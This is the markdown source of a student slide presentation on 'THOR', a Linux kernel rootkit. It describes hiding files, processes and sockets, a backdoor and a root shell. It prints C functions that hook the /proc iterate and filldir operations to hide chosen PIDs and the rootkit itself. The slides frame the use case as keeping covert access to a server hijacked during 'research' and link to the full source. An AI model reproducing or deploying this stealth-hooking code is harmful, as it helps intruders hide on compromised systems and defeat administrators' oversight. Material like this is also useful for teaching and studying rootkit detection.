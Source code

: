 ```yaml
---
title: 'THOR'
subtitle: 'The ~~Horrific~~ Hopefully Omnipotent Rootkit'
author: [
    Alex Hirsch,
    FraJo Haider,
]
date: 2014-12-01
---
```


## The Linux Kernel

\centerline{\includegraphics[height=170px]{gfx/kernel.png}}
\tiny{source: \url{http://sysplay.in/blog/linux-device-drivers/2013/02}}

## Internals

\centerline{\includegraphics[height=170px]{gfx/kernel_map.png}}
\tiny{source \url{http://en.wikipedia.org/wiki/Linux_kernel}}

## Dafuq?

\centerline{\includegraphics[height=180px]{gfx/dafuq.jpg}}

## Okay Okay ... Imagine

- you are a student doing some ... ehm .. *research*
- you managed to hijack a server, acquired root privileges and now what?

- you could fool around, delete files, load some torrents, because `<INSERT
  REASON>`
- use the server as proxy to do even more ~~evil~~ *research oriented* stuff

But sooner or later the admin may recognize that the server has been
compromised, and lock you out.

## Solution: **Rootkit**

\centerline{\includegraphics[height=180px]{gfx/rootkit.jpg}}

## Main Usage

- provides backdoor
- hides suspicious activities
    - open ports
    - suspicious processes
    - files
- **hides its own presences**

## Why Kernel Module

- **more power**, kernel space > user space

In general system administration tools invoke *system calls* to retrieve
information directly from the kernel. Hence compromising the *root of
information* by overwriting certain system calls will render most
administration tools useless.

## Kernel Module Basics

- can be loaded / unloaded dynamically using `insmod` / `rmmod` as root
- can be loaded at boot
- *Linux Headers* provide an API
- communication via *files* (usually located in `/proc`)

## Problems

\centerline{\includegraphics[height=180px]{gfx/problems.jpg}}

## Problems

- few example code for up2date kernels
- Headers do not export enough, hence complete source is required
- hijacking systemcalls is not really encouraged by the developers (race
  conditions / undefined behaviour)
    - *yeah, no shit sherlock*

## Current State

- communication using file in `/proc`
- basic hiding of files by name
- basic hiding of processes by PID
- root shell
- hiding of sockets ... work in progress
- working in 3.14 (Arch LTS) and 3.17 (Arch Current)

## `pidhider_init()`

```{.c .numberLines}
static int __init pidhider_init(void)
{
    // insert our modified iterate for /proc
    procroot = procfile->parent;
    proc_fops = (struct file_operations*)procroot->proc_fops;

    orig_proc_iterate = proc_fops->iterate;

    set_addr_rw(proc_fops);

    proc_fops->iterate = thor_proc_iterate;

    set_addr_ro(proc_fops);

    INIT_LIST_HEAD(&pid_list.list);

    return 0;
}
```

## `proc_iterate()`

```{.c .numberLines}
static int thor_proc_iterate(struct file *file, struct dir_context *ctx)
{
    int ret;
    filldir_t *ctx_actor;

    // capture original filldir function
    orig_proc_filldir = ctx->actor;

    // cast away const from ctx->actor
    ctx_actor = (filldir_t*)(&ctx->actor);

    // store our filldir in ctx->actor
    *ctx_actor = thor_proc_filldir;
    ret = orig_proc_iterate(file, ctx);

    // restore original filldir
    *ctx_actor = orig_proc_filldir;

    return ret;
}
```

## `proc_filldir()`

```{.c .numberLines}
static int thor_proc_filldir(void *buf, const char *name, int namelen,
        loff_t offset, u64 ino, unsigned d_type)
{
    struct _pid_list *tmp;

    // hide specified PIDs
    list_for_each_entry(tmp, &(pid_list.list), list)
    {
        if(0 == strcmp(name, tmp->name)) return 0;
    }

    // hide thor itself
    if (0 == strcmp(name, THOR_PROCFILE)) return 0;

    return orig_proc_filldir(buf, name, namelen, offset, ino, d_type);
}
```

## Take a look

Github: <http://git.io/ZwNdCQ>

\centerline{\includegraphics[height=160px]{gfx/qrcode.png}}
